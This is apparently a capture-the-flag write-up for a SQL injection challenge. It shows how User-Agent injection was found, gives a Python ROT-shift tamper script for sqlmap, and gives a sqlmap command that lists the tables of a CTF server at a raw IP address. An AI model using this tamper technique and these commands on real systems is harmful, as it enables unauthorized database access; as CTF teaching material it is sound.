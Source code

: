 SQL Sanity Check
===
* After reading the description, the possible injectable parameters should be email or user agent. Let's test:
![](img1.png)
![](img2.png)
* It looks like email is not injectable for sure, but for user agent there is still a chance, let's test with PostMan:
![](img3.png)
* Yeah, it is injectable, we've got a SQL error, but it looks like it is doing something strange with the input. After trying few inputs, we discover that it is encrypting with ROT-11. So, we should send the payload using ROT-15 to get plain text. This looks like a job for sqlmap tampering, let's write a script:
```
def encrypt(letter, key):

    # must be single alphabetic character
    if not letter.isalpha() or len(letter) != 1:
        return letter

    # convert to lowercase
    letter = letter.lower()

    # convert to numerical value 0 - 25
    # a = 0, b = 1, ... z = 25
    value = ord(letter) - 97

    # apply key, number of characters to shift
    value = (value + key) % 26

    # return encrypted letter
    return chr(value + 97)


def decrypt(letter, key):

    # must be single alphabetic character
    if not letter.isalpha() or len(letter) != 1:
        return letter

    # convert to lowercase
    letter = letter.lower()

    # convert to numerical value 0 - 25
    # a = 0, b = 1, ... z = 25
    value = ord(letter) - 97

    # apply key, number of characters to shift
    value = (value - key) % 26

    # return encrypted letter
    return chr(value + 97)


# number of characters to shift

def enc(key, plaintext):
    ciphertext = ''
    for letter in plaintext:
        ciphertext += encrypt(letter, key)
    return ciphertext

import re

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    ret =  enc(15, payload)
    return ret
```
* Let's move the script in tamper folder of sqlmap and try again:
![](img4.png)
* We got it, it's injectable. Now, let's get the tables.
```
python2 sqlmap.py -u "http://89.38.210.129:8093/login.php" --user-agent="sqlmap*" --method POST --data="email=john.smith@timisoaractf.com" --tamper=rot --tables
```
* It outputs a lot, but in the end, we see what we want:
![](img5.png)
